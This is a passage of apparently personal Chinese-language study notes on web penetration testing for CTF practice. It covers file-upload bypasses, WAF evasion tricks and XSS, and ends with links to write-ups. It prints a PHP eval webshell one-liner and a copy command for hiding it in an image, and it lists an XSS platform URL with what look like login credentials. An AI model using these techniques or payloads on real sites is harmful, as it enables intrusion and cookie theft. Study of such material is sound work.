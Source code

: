          解析漏洞导致直接可以执行脚本代码、文件包含漏洞(一句话图片 copy 1.png /b +shell.php /a webshell.jpg    <?php @eval($_POST['x']);?>)导致上传图片可以通过该漏洞解析成php
      
         ```
         文件头检测：16进制打开，更改文件头，绕过(要配合文件包含漏洞)
         二次渲染：图片上传上去后能在网站进行二次更改
         条件竞争：条件竞争：图片上传上去后能在网站进行二次更改，涉及逻辑漏洞，如果验证是在上传之后，那么在上传的同时已经把图片保存服务器，所以可以不断访问该文件，占用不让服务器能删除文件
         突破getimagesize：获取图片信息，若不是图片则返回为空(要配合文件包含漏洞)
         突破exif__imagetype：只接受图片，上传正常图(要配合文件包含漏洞)
         /.绕过：文件支持自命名，在上传时候抓包修改为/upload/1.php/.   系统认为该地址是文件
         ```
   
3. 漏洞/修复：

   1. 解析漏洞![image-20210427230506970](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210427230506970.png)
   2. CMS漏洞：获取cms指纹后查找漏洞
   3. 其他漏洞

4. WAF绕过：filename,Content-Disposition,Content-Type

   1. 数据溢出---防匹配(xxx...)：类似之前看到的表情包复制粘贴，在filename和name之间插入  **;垃圾参数;**
   2. 符号变异---防匹配('    "   ;  : \n   / ;/) ：去掉filename的一个 "  ，或者改成 '  ，再试试去掉 ;   ，或者提前匹配，前面写"" ，后面再写xx.php ，去防匹配验证  "asd";x.php"
   3. 数据截断---防匹配(%00 ; 换行)：
   4. 重复数据---防匹配(参数多次)：
   5. fuzz模糊测试：通过大量非预料数据测试
   
   ![image-20210524152324261](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210524152324261.png)

#### 3.3 XSS跨站

[CTF XSS]: https://www.cnblogs.com/20175211lyz/p/12207467.html

```
插入js代码，对方执行js代码,拿cookie，bp修改x-forwarder-for和cookie登录 
留言板，评论区，订单，反馈
```

1. 原理
   1. 产生原理：产生于前端，未过滤完全
   2. 危害影响
2. 分类
   1. 反射型：单次攻击，不经过数据库(复制构造好url，使对方点击)
   2. 存储型：持续攻击，经过数据库(构造后等待管理员或其他人点击该网站)
   3. DOM型：类似ajax，发包时候发给的是静态前端代码
3. 手法
   1. XSS平台：https://xss8.cc/bdstatic.com/ jang2020 123456，成果都在对方手里，谨慎使用
   2. XSS工具：beef
   3. XSS结合其他漏洞：常见网上大马都有后门，可以修改密码处变成xss注入，对方点击拿到对方cookie
4. 绕过
   1. 代码过滤
   2. http only：防止通过js获取cookie
      1. 浏览器有保存：读取保存数据
      2. 浏览器没保存：表单劫持
   3. WAF拦截
   4. 常规绕过思路：
      1. 标签语法替换：提前闭合、删除部分标签
      2. 特殊符号干扰：/  # 
      3. 提交方式更改：
      4. 垃圾数据溢出：
      5. 加密解密算法：
      6. 结合其他漏洞绕过：
      7. 自动化：xsstrike
5. 修复：输入过滤，输出过滤，搭载过滤器


   [vulhub启动]: https://vulhub.org/#/docs/run/
[Sql注入基本思路]: https://www.cnblogs.com/20175211lyz/p/11210936.html
[ SQL注入拓展]: https://www.cnblogs.com/20175211lyz/p/11204022.html
[限制条件下获取表名、无列名注入]: https://www.cnblogs.com/20175211lyz/p/12358725.html
[^CTF文件上传]: https://www.cnblogs.com/20175211lyz/p/10989689.html
[CTF SSRF(服务器端伪造请求)]: https://www.cnblogs.com/20175211lyz/p/11408583.html
[命令执行写webshell]: https://mp.weixin.qq.com/s/cSaA6HUX0_j7KzBzAAoE0Q
[CTF RCE与命令注入]: https://www.cnblogs.com/20175211lyz/p/11396392.html
[CTF 文件包含]: https://www.cnblogs.com/20175211lyz/p/10989816.html
[CTF PHP反序列化]: https://blog.csdn.net/solitudi/article/details/113588692?spm=1001.2014.3001.5502
[CTF PHP反序列化]: https://www.cnblogs.com/20175211lyz/p/11403397.html
[POP链]: https://www.cnblogs.com/20175211lyz/p/12364199.html
[CTF XXE]: cnblogs.com/20175211lyz/p/11413335.html	"里面有详细介绍"
[CTF SSTI(服务器模板注入)]: https://www.cnblogs.com/20175211lyz/p/11425368.html